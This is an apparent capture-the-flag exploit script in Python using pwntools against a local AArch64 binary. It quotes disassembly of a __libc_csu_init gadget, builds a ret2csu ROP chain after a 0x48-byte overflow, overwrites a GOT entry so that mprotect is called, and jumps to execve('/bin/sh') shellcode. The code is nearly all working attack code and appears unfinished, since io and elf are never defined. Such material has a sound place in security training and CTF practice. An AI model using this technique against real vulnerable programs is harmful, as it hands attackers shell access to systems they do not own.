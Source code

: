 exp

```python
#!/usr/bin/env python3

from pwn import *

localfile = "./pwn"
# locallibc = ""
context.binary = localfile
context.log_level = "debug"
pf      = lambda name,num           :log.info(name + ": 0x%x" % num)
g       = lambda x                  :next(libc.search(asm(x)))

"""
.text:00000000004008AC loc_4008AC                              ; CODE XREF: sub_400868+60↓j
.text:00000000004008AC                 LDR             X3, [X21,X19,LSL#3]
.text:00000000004008B0                 MOV             X2, X22
.text:00000000004008B4                 MOV             X1, X23
.text:00000000004008B8                 MOV             W0, W24
.text:00000000004008BC                 ADD             X19, X19, #1
.text:00000000004008C0                 BLR             X3
.text:00000000004008C4                 CMP             X19, X20
.text:00000000004008C8                 B.NE            loc_4008AC
.text:00000000004008CC
.text:00000000004008CC loc_4008CC                              ; CODE XREF: sub_400868+3C↑j
.text:00000000004008CC                 LDP             X19, X20, [SP,#var_s10]
.text:00000000004008D0                 LDP             X21, X22, [SP,#var_s20]
.text:00000000004008D4                 LDP             X23, X24, [SP,#var_s30]
.text:00000000004008D8                 LDP             X29, X30, [SP+var_s0],#0x40
.text:00000000004008DC                 RET

X21 = address of function address
X22 = X2
X23 = X1
W24 = W0
"""
def csu_rop(call, x0, x1, x2, ret):
    payload  = p64(0x4008CC) + p64(0xdeadbeef) + p64(0x4008AC) + p64(0) + p64(1)
    payload += p64(call) + p64(x2)
    payload += p64(x1) + p64(x0)
    payload += p64(0xdeadbeef) + p64(ret)
    return payload


def exp():
    sc = asm(shellcraft.execve("/bin/sh"))

    io.recvuntil("Name:")
    io.send(sc)
    sleep(0.1)

    payload = b"A"*0x48 + csu_rop(elf.got["read"], 0, elf.got["__gmon_start__"], 8, 0x400824)
    io.send(payload)
    sleep(0.1)
    io.send(p64(elf.plt["mprotect"]))

    io.recvuntil("Name:")
    io.send(sc)
    sleep(0.1)

    payload = b"A"*0x48 + csu_rop(elf.got["__gmon_start__"], 0x411000, 0x1000, 7, 0x411068)
    io.send(payload)

```